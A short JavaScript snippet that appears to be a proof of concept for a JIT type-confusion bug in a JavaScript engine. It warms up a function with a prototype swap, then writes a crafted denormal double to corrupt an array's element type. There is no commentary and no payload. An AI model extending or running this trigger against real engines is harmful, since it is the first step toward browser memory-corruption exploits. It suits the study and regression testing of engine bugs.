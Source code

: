 
function inlinee() {

}

function opt(arr) {
    arr[0] = 1.1;
    new inlinee();
    arr[0] = 2.3023e-320;
}

function main() {
    let arr = [1.1];
    for (let i = 0; i < 10000; i++) {
        inlinee.prototype = {};
        opt(arr);
    }

    inlinee.prototype = arr;
    opt(arr);

    print(arr);
}
